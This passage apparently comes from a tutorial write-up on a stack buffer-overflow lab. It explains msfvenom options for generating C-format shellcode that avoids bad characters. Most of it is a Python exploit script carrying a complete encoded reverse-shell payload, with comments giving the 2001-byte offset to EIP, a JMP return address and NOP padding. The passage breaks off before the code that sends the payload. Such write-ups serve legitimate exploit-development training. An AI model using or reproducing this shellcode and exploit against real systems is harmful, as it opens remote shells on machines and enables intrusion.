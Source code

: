         🔹 `-b "\\x00\\x0a\\x0d"` → **Avoids bad characters** (`NULL (\\x00)`, `\\x0a`, and `\\x0d`), which might break the exploit.

        🔹 `-f c` → Formats the output as **C language shellcode**, so it can be used in an exploit script.
*   **Execute Shellcode**

    > note(the actual size was 2002 but now there was some problem somehow i couldn’t reach our breakpoint address so i tried to make it 2001 and it worked and when we try to run reverse shell script i changed it to 2003 so I just wanted to explain all this )

    reverse shell code

    ```bash
    #!/usr/bin/python3

    import sys, socket
    from time import sleep

    overflow=("\\xbe\\xaf\\x2f\\x75\\xb6\\xd9\\xca\\xd9\\x74\\x24\\xf4\\x5f\\x29\\xc9"
    "\\xb1\\x52\\x31\\x77\\x12\\x03\\x77\\x12\\x83\\x40\\xd3\\x97\\x43\\x62"
    "\\xc4\\xda\\xac\\x9a\\x15\\xbb\\x25\\x7f\\x24\\xfb\\x52\\xf4\\x17\\xcb"
    "\\x11\\x58\\x94\\xa0\\x74\\x48\\x2f\\xc4\\x50\\x7f\\x98\\x63\\x87\\x4e"
    "\\x19\\xdf\\xfb\\xd1\\x99\\x22\\x28\\x31\\xa3\\xec\\x3d\\x30\\xe4\\x11"
    "\\xcf\\x60\\xbd\\x5e\\x62\\x94\\xca\\x2b\\xbf\\x1f\\x80\\xba\\xc7\\xfc"
    "\\x51\\xbc\\xe6\\x53\\xe9\\xe7\\x28\\x52\\x3e\\x9c\\x60\\x4c\\x23\\x99"
    "\\x3b\\xe7\\x97\\x55\\xba\\x21\\xe6\\x96\\x11\\x0c\\xc6\\x64\\x6b\\x49"
    "\\xe1\\x96\\x1e\\xa3\\x11\\x2a\\x19\\x70\\x6b\\xf0\\xac\\x62\\xcb\\x73"
    "\\x16\\x4e\\xed\\x50\\xc1\\x05\\xe1\\x1d\\x85\\x41\\xe6\\xa0\\x4a\\xfa"
    "\\x12\\x28\\x6d\\x2c\\x93\\x6a\\x4a\\xe8\\xff\\x29\\xf3\\xa9\\xa5\\x9c"
    "\\x0c\\xa9\\x05\\x40\\xa9\\xa2\\xa8\\x95\\xc0\\xe9\\xa4\\x5a\\xe9\\x11"
    "\\x35\\xf5\\x7a\\x62\\x07\\x5a\\xd1\\xec\\x2b\\x13\\xff\\xeb\\x4c\\x0e"
    "\\x47\\x63\\xb3\\xb1\\xb8\\xaa\\x70\\xe5\\xe8\\xc4\\x51\\x86\\x62\\x14"
    "\\x5d\\x53\\x24\\x44\\xf1\\x0c\\x85\\x34\\xb1\\xfc\\x6d\\x5e\\x3e\\x22"
    "\\x8d\\x61\\x94\\x4b\\x24\\x98\\x7f\\x7e\\xb9\\xa0\\x7a\\x16\\xbb\\xa4"
    "\\x85\\x5d\\x32\\x42\\xef\\xb1\\x13\\xdd\\x98\\x28\\x3e\\x95\\x39\\xb4"
    "\\x94\\xd0\\x7a\\x3e\\x1b\\x25\\x34\\xb7\\x56\\x35\\xa1\\x37\\x2d\\x67"
    "\\x64\\x47\\x9b\\x0f\\xea\\xda\\x40\\xcf\\x65\\xc7\\xde\\x98\\x22\\x39"
    "\\x17\\x4c\\xdf\\x60\\x81\\x72\\x22\\xf4\\xea\\x36\\xf9\\xc5\\xf5\\xb7"
    "\\x8c\\x72\\xd2\\xa7\\x48\\x7a\\x5e\\x93\\x04\\x2d\\x08\\x4d\\xe3\\x87"
    "\\xfa\\x27\\xbd\\x74\\x55\\xaf\\x38\\xb7\\x66\\xa9\\x44\\x92\\x10\\x55"
    "\\xf4\\x4b\\x65\\x6a\\x39\\x1c\\x61\\x13\\x27\\xbc\\x8e\\xce\\xe3\\xcc"
    "\\xc4\\x52\\x45\\x45\\x81\\x07\\xd7\\x08\\x32\\xf2\\x14\\x35\\xb1\\xf6"
    "\\xe4\\xc2\\xa9\\x73\\xe0\\x8f\\x6d\\x68\\x98\\x80\\x1b\\x8e\\x0f\\xa0"
    "\\x09")

    #625011af that was our return adderess for the right Module and JMP command

    #here instead of having 4B's in EIP we will put our return address so the EIP now have a JMP code and the JMP code will take us to our mallicious code
    #the first 2001 A's will take us to the EIP
    #when we get to the EIP we put our JMP address,the JMP address will take us to the instructions that we provide 
    #the instructions we provide is our msvenom shell code we just generated 
    #the "\\x90" is NOPs is just padding between our jmp and shell code we try more than one size like 16,32..
